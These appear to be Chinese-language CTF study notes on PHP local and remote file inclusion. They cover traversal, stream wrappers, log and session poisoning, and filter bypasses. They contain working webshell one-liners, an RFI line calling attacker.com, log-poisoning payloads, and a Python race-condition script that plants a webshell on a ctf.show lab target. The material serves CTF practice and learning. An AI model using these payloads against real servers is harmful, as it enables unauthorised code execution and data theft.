


# 文件包含

### 什么是文件包含？

为了提高代码复用性和维护性，开发者会把一些通用函数或代码块（如页头、页脚）写到单独的文件里，然后在需要的地方用 `include`、`require` 等函数将其引入。这本身是一个高效、正常的开发行为。

### 两种类型（LFI和RFI）

- **本地文件包含 (LFI - Local File Inclusion)**：只能包含并执行**服务器本地**的文件。这是最常见的情况。
- **远程文件包含 (RFI - Remote File Inclusion)**：可以直接包含并执行**远程服务器**上的恶意文件，危害极大。利用条件较苛刻，需要PHP配置开启了`allow_url_include`。

它们的核心目的都是**读取敏感信息**或**执行任意代码**。

### 方法整理

1. 路径穿越

   - 用相对路径：/var/www/html/falg 相当于 /../../../flag
   - 加一些不存在的目录名，进行穿越，绕过：file=/etc/dhuiasguk5131/../passwd

2. 伪协议利用

   - **file://** 读取本地文件 file=file:///etc/dhuiasguk5131/../passwd（需allow_url_fopen，可以进行穿越，绕过）

     **`file://` 只能用**绝对路径

   - **php://filter**：读取PHP文件源码（Base64编码）php://filter/read=convert.base64-encode/resource=index.php

     或者php://filter/convert.base64-encode/resource=index.php（可以省略`read=`）

     php://filter/convert.iconv.UTF-8.UTF-7|convert.base64-decode/resource=xxx

     `php://filter` 不只是 Base64，支持**字符集转换**，支持多重编码（重新获取时也需要多重解码）

   - **php://input**：接收POST原始数据作为代码执行（可以利用BurpSuit将GRT转化为POST）

     POST: `<?php system('ls');?>`（需allow_url_include）

   - **data://**：执行Base64编码的PHP代码

     data://text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKTs/Pg==(<?php system("dir");?>的base64编码)

   - **phar://**：反序列化 + 文件读取  上传phar文件，触发反序列化或读取内部文件

     phar://shell.zip/shell.php 

     ?file=zip://shell.jpg#shell.php（格式与phar://有所不同）

     `zip://` 或 `phar://` 读取上传的压缩包内文件

#### 解题思路

1. #### 信息收集

   - 判断是否存在文件包含：`?file=index.php` 或 `?page=about` 等参数。
   - 尝试报错：`?file=xxx` 看错误信息是否暴露路径、过滤规则。
   - 尝试包含已知文件：`/etc/passwd`、`/etc/hosts`、`/var/log/nginx/access.log` 等。

2. #### **LFI（本地文件包含）**：只能读服务器本地文件。

   #### **RFI（远程文件包含）**：可包含远程URL（需allow_url_include=On）。

   - 远程shell：`?file=http://attacker.com/shell.txt`（内容为`<?php system($_GET['cmd']);?>`）。
   - 远程日志/User-Agent注入。

3. #### 无代码执行时：读取敏感文件

   - 尝试路径穿越读取：

     ```
     ../../../../etc/passwd
     ../../../../var/www/html/config.php
     ```

   - 使用伪协议绕过：

     - `php://filter` 读源码（比直接读更可靠）。
     - `zip://` 或 `phar://` 读取上传的压缩包内文件。

4. #### 有代码执行需求时

   - `php://input` + POST数据（短标签或`<?php ... ?>`）。
   - `data://` 直接写代码。
   - 包含上传的文件（图片马、日志文件、session文件）。
   - 包含临时文件（PHP上传、multipart/form-data生成的临时文件）。

5. #### 无回显情况

   - 写shell
   - 利用 `php://filter` 的 `string.strip_tags`（已废弃）或 `convert.iconv` 等链（CTF新题常用）。
   - 利用 `expect://`（需安装expect扩展，很少见）。

### 绕过方式（常用）

1. #### 双写/大小写/编码绕过

   - `....//` → `../`（正则只替换一次时）。

   - `%2e%2e%2f`（URL编码）。

   - `..%252f`（**二次编码**）。某些过滤只做一次 `urldecode`

     ```php
     #多级过滤器（绕过检测），进行两次编码
     php://filter/convert.base64-encode|convert.base64-encode/resource=index.php
     #`|`这个是管道符
     ```

   - `\..\..\`（Windows路径）。

2. #### 包含日志文件

   投毒（注入代码）->记录（写入日志:服务器收到请求后，会把这个带有恶意代码的 User-Agent 原封不动地记录到 `access.log` 日志文件中）->触发（包含执行）

   **把日志文件当作一个特殊的 PHP 文件来包含，从而让服务器执行藏在日志里的恶意代码。**

   - Apache/Nginx access.log（``User-Agent`，`Referer` 或者直接在 URL 路径注入PHP代码）。

     **不能直接在浏览器地址栏输入**。因为浏览器会自动把 `<`、`>`、空格等特殊字符进行 URL 编码（比如变成 `%3C`、`%3E`、`%20`），这样写入日志的代码就无法被 PHP 解析执行。

   - **Apache (Linux)**：

     - `/var/log/apache2/access.log`
     - `/var/log/httpd/access_log`
     - `/etc/httpd/logs/access.log`

     **Nginx (Linux)**：

     - `/var/log/nginx/access.log`

     **Windows (如 PHPStudy/XAMPP 环境)**：

     - `C:/xampp/apache/logs/access.log`
     - `C:/phpstudy_pro/Extensions/Apache2.4.39/logs/access.log`（具体路径视版本而定）

3. ### 包含Session文件

   - PHP默认Session文件：`/var/lib/php/sessions/sess_<session_id>`

     ```php
     $_SESSION['user'] = '<?php system("id"); ?>';
     ```

   - 包含session文件

     ```php
     ?file=../../../../var/lib/php/sessions/sess_xxx
     ```

4. #### 包含/proc/self/environ

   `/proc/self/environ` 是 Linux 系统中的一个特殊虚拟文件，它保存了当前进程的环境变量。

   你需要找到一个文件包含漏洞点，并确认目标服务器存在且可以读取 `/proc/self/environ` 文件。

   如果页面返回了一大堆类似 `PATH=/usr/bin...HTTP_USER_AGENT=Mozilla/5.0...` 的环境变量信息，说明攻击条件成立。

   - 如果可读，可能包含User-Agent等环境变量（注入代码）。

5. #### 包含上传文件

   - 上传图片马（内容为`<?php ...?>`），包含时触发。

   - 包含临时文件（/tmp/php??????）。

     ##### 补充：临时文件（时间战）：

     概念：通常指的是利用 PHP 文件上传机制中的**临时文件**，配合**条件竞争（Race Condition）**来触发文件包含漏洞的一种高级技巧。

     原理：当用户向服务器上传一个文件时，PHP 并不会直接把文件存到你指定的目录。它会先将文件保存在一个**临时目录**中（由 `php.ini` 中的 `upload_tmp_dir` 控制，Linux 下通常是 `/tmp`），并生成一个**随机的临时文件名**（例如 `/tmp/phpXXXXXX`）

     一个脚本"疯狂"上传一个包含恶意 PHP 代码（比如 `<?php system('ls');?>`）的文件，另一个脚本"疯狂爆破"，不断地去猜测和包含 `/tmp/` 目录下的 `php*` 临时文件（比如不断请求 `?file=/tmp/phpaaaaaa`）。

6. #### 包含Zip/Phar（绕过文件后缀限制）

   - 上传`shell.jpg`（内部为`shell.php`）：
     `?file=zip://shell.jpg#shell.php`（或`phar://`）。
   - phar反序列化：构造phar元数据触发反序列化漏洞。

7. #### 远程包含 + 短标签绕过

   远程文件包含（RFI）：`allow_url_include=On`

   ##### 补充：短标签

   ```php
   #标准一句话木马：
   <?php eval($_POST['cmd']); ?>
   #短标签绕过木马：
   <? eval($_POST['cmd']); ?>
   #使用 <?= 代替 <?php echo
   ```

   从 **PHP 8.0** 开始，`<? ... ?>` 这种纯短标签已经被彻底移除，不再支持。

   **`<?=` 始终可用**：短输出标签 `<?=`（等同于 `<?php echo`）是一个特例。从 PHP 5.4 版本开始，无论 `short_open_tag` 是否开启，`<?=` **始终是被支持且可用的**。

   ```php
   #短标签（默认开启）：
   <?= system($_GET['cmd']); ?>
   #AS  P标签（少用）：
   <% system($_GET['cmd']); %>
   ```

   - 目标服务器可能禁用`<?php`，但支持`<?=`或`<%`。

8. #### 利用`allow_url_include`开启但`allow_url_fopen`关闭

   - `php://input` 依然可用。
   - `data://` 可能需要`allow_url_fopen`，不同PHP版本有差异。

先进行投毒等待服务器将恶意文件读取，再进行文件包含（服务器解析而已文件并执行）

### 读取敏感文件

| 路径                      | 用途                             |
| :------------------------ | :------------------------------- |
| `/etc/passwd`             | Linux 用户信息                   |
| `/var/www/html/index.php` | 源码                             |
| `/proc/self/environ`      | 环境变量                         |
| `php://filter/...`        | 读取 PHP 源码（Base64 编码绕过） |

### Session文件包含

**路径**：`/tmp/sess_<session_id>` 或 `/var/lib/php/sessions/sess_<session_id>`

```text
// 在登录表单等位置注入
<?php system('ls'); ?>
// Session 文件内容变成 user=admin|<?php system('ls'); ?>
// 然后包含 Session 文件
```

### 上传恶意文件

- 上传图片马，然后包含图片路径
- 包含 `/tmp/` 下临时文件（如 `php_upload_tmp`）

### RFI检查命令

```bash
# 检查是否允许 RFI
phpinfo() | grep allow_url_include
# 测试 LFI 是否存在
../../../../etc/passwd
# 测试过滤规则
....//....//....//etc/passwd
..././..././..././etc/passwd
# 尝试编码绕过
%2e%2e%2f%2e%2e%2fetc/passwd
..%252f..%252fetc/passwd
#nginx日志文件
/var/log/nginx/access.log
```

ngrok 公网进行远程文件包含。


## 基础文件包含

1. data伪协议（推荐，可以使用ls命令查看flag位置），返回的是命令运行的结果，不用Base64解码

   - ```bash
     ?file=data://text/plain,<?php system("ls")?>
     ?file=data://text/plain,<?php system("tac flag.php")?>
     ```

   fliter伪协议（不推荐，不知道flag在哪时不好用）

   - ```bash
     ?file=php://filter/read=convert.base64-encode/resource=flag.php
     ```

   日志包含（推荐，伟大无需多言）

   - ```bash
     ?file=../../../../var/log/nginx/access.log
     在User-Agent中写入?file=data://text/plain,<?=system('tac flag.php');?>
     再次访问?file=../../../../var/log/nginx/access.log让代码执行
     或者用<?php @eval($_POST['cmd']); ?>
     <?php @eval($_GET[1]);?>
     ```

2. 过滤php：

   通配符：*

   ```php
   ?file=data://text/plain,<?=system('ls');?> 
   ?file=data://text/plain,<?=system('tac flag*');?>
   或者直接写成?file=data://text/plain,<?=system('tac f*');?>
   ```

   大小写绕过

   双写绕过

   Base64编码：
   
   ```php
   /?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOw==
   ```
   

## 条件竞争

1. Session:默认情况下，php服务器会自动建立一个以Cookie命名的session文件路径为/tmp/sess_exp，通过session.upload_progress可以将恶意语句写入session文件，但是对于默认配置session.upload_progress.cleanup = on，文件上传后 session  文件内容会立即被清空。

   **一边通过上传文件，不断地把恶意代码（比如 `<?php system('ls');?>`）写入 `/tmp/sess_ctfshow`，另一边则马不停蹄地去访问 `?file=/tmp/sess_ctfshow`**

   - 使用BP：

     生成上传表单页

     ```html
     <!DOCTYPE html>
     <html>
     <body>
     <form action="https://你的靶场地址.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
         <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('ls'); ?>" />
         <input type="file" name="file" />
         <input type="submit" value="submit" />
     </form>
     </body>
     </html>
     ```
   
     用BP拦截 **发送到 Intruder**（线程为30）
   
     在浏览器中访问：`http://靶场地址/?file=/tmp/sess_ctfshow`
   
     用BP拦截 **发送到 Intruder**（线程为80）
   
     监控读取请求，长度比不一样的为包含**ls**的请求
   
     成功了可以再次把 `PHP_SESSION_UPLOAD_PROGRESS` 的值改成(写入一句话木马)：
   
     ```php
     <?php file_put_contents('/var/www/html/muma.php', '<?php eval($_POST[a]);?>'); ?>
     ```
   
     
   
   - 用python竞争脚本
   
     ```python
     from requests import get, post
     from io import BytesIO
     from threading import Thread
     from urllib.parse import urljoin
     import urllib3
     
     # ==================== 禁用 SSL 警告 ====================
     urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
     
     # ==================== 修改这里 ====================
     URL = 'https://e6295f50-94b5-4119-97d8-e8dd6f47c241.challenge.ctf.show/'
     # ====================================================
     
     PHPSESSID = 'demo'
     
     def write():
         # 木马：POST 传参，密码为 1
         code = "<?php file_put_contents('/var/www/html/demo.php', '<?php @eval($_POST[1]);?>');?>"
         data = {'PHP_SESSION_UPLOAD_PROGRESS': code}
         cookies = {'PHPSESSID': PHPSESSID}
         files = {'file': ('xxx.txt', BytesIO(b'x' * 10240))}
         while True:
             try:
                 post(URL, data=data, cookies=cookies, files=files, verify=False)
             except:
                 pass
     
     def read():
         params = {'file': f'/tmp/sess_{PHPSESSID}'}
         while True:
             try:
                 # 尝试包含 session 文件
                 get(URL, params=params, verify=False)
                 
                 # 检查木马是否写入成功
                 url = urljoin(URL, 'demo.php')
                 resp = get(url, verify=False)
                 
                 if resp.status_code == 200:
                     print('[+] 成功！木马地址：' + url)
                     print('[+] 蚁剑密码：1')
                     print('[+] 响应内容：')
                     print(resp.text[:200])  # 只打印前200字符
                     return
             except:
                 pass
     
     if __name__ == '__main__':
         # 启动写线程（daemon=True 表示主线程结束时自动终止）
         Thread(target=write, daemon=True).start()
         
         # 主线程执行读操作
         read()
     ```
     
     ```
     python exp.py	#运行脚本
     ```
     

## 其他过滤方式

### 逻辑绕过和死亡前缀（die函数）的绕过

```php
$file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content); 
```

这里代码从上往下运行，**先执行替换，再进行urldecode解码**,**可以进行两次url编码**将str_replace绕过

**死亡前缀**：这意味着如果我们直接写入一句话木马，执行时 `die()` 会立即终止脚本，导致后面的木马代码无法执行。

**利用Base64的特性**：Base64 解码器，遇到不认识的字符（比如 `< ? ( '` 等）会直接扔掉。代码强制加上的死亡前缀 `<?php die('大佬别秀了');?>`，在解码时会被剥得只剩 `phpdie` 这 6 个字母，变成一堆无意义的乱码，从而失去了"终止程序"的作用。

Base64 解码必须**每 4 个字符为一组**进行。前缀剩下的 `phpdie` 占了 6 个字符，导致后面的内容解码会"错位"。所以，我们在自己写的木马前面，随便加 **2 个合法字符**（比如 `aa`），凑成 8 个字符（6+2）。

#### 具体步骤

1. <?php @eval($_GET[1]);?>	Base64编码为PD9waHAgQGV2YWwoJF9HRVRbMV0pOz8+
2. php://filter/write=convert.base64-decode/resource=shell.php	进行双重url编码：%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30
3. 利用BP发送请求，再访问地址，用GET传参

这里有一个问题，做完后出现Parse error: syntax error, unexpected '?', expecting end of file in /var/www/html/demo.php on line 1

使得源代码变为<?php die('大佬别秀了');?>aa<?php @eval($_POST[a]);?>格式出现错误，一句话木马没有注入成功

**可以用 ROT13编码**

content=<?cuc @riny($_TRG[1]);?>

## 过滤=和+

主要是data协议构造base64的时候必须要求不含=和+号，多试几次构造一下，在结尾?>后添加字符消除=

```text
<?php system("ls")?>	Base64编码为PD9waHAgc3lzdGVtKCJscyIpPz5k
```

## misc+lfi

用隐写术隐藏了 PHP 源码，我们需要先从视频里提取出源码，再根据源码的提示进行文件包含，最终读取 Flag。

用**binwalk**或**foremost**进行数据恢复和文件提取

你直接在浏览器里访问 `/?file=flag.php` 时，因为服务器把内容类型设置成了 `video/mp4`，浏览器会试图把它当作视频来解析，结果就是你看不到，或者只看到一个播放器界面。



而 `curl` 不会对内容做任何解析，它只负责把服务器给的**原始数据（即 PHP 源码）原封不动地打印到屏幕上**，所以你能直接看到 Flag。



## 其他过滤器

```html
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents
```

**绕过 `die()` 的原理**：`die()` 在文件**被执行（被包含）时**才会起作用。而 UCS-2 编码是在**文件被写入时**生效的。

**关键字过滤**：`preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i', $x)` 屏蔽了包括 `base64`、`rot13`、`string`、`data` 等几乎所有常见的伪协议和编码方法，让我们无法通过 `php://filter` 的常规写法来读取或写入文件。

 用 `iconv` 过滤器进行字符编码转换，将写入的内容从 UCS-2LE 转为 UCS-2BE

```php
php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php
```

UCS-2编码：?<hp pe@av(l_$EG[T]1;)>?
